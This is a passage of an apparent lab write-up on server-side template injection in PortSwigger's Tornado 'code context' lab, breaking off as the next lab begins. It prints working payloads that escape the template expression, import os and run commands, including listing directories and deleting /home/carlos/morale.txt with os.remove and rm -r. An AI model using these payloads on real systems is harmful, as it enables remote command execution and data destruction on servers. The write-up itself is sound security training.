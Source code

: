 ### Lab2: Basic SSTI (code context)
- I will inject any invalid syntax for reading the error message to know the template engine.

![Lab2](https://github.com/Sec0gh/Portswigger-Labs/blob/main/Server-side%20template%20injection%20Labs/images/lab2.png)

- the syntax code in the `tornado` template ==> {{user.nickname}}
- it is using python syntax in the code and the template syntax is:
	-   `{{` - Used to mark the start of a print statement.
	-   `}}` - Used to mark the end of a print statement.
	-   `{%` - Used to mark the start of a block statement.
	-   `%}` - Used to mark the end of a block statement.

- Check out it: [tornadoweb.org](https://www.tornadoweb.org/en/stable/template.html)

* In the server side will take and compile the code as this will open `{{` then will take the value from the parameter and close with `}}`
* It will compile this code in order.
* I will do in order as the server but i will inject my payload:

```
{{user.nickname...............i_will_inject_here.................}}
```
* Then the server will close with `}}` automatically.
- So it is a payload: `}}{%import os%}{{os.system('ls /home/carlos')`
* The final form with payload after injecting in the server side it will seem like that:
`{{user.name`  }}{%import+os%}{{os.system('ls') `}}` 
- list content of `/home` directory:
```
user.name}}{%import os%}{{os.system('ls+/home')
```
- I removed the file with `remove("file_path")` method.
```
}}{%import os%}{{os.remove("/home/carlos/morale.txt") 
```
- Or you can use `system()` method to execute any command on the server.
```
}}{%import os%}{{os.system("rm -r /home/carlos/morale.txt")
```

-----------------------------------------------------------------------

### Lab3: SSTI using documentation

- As usual, i tried to cause any errors in the template.
- I have seen this formt `${.....}` then i edited it to `${foobar}`
     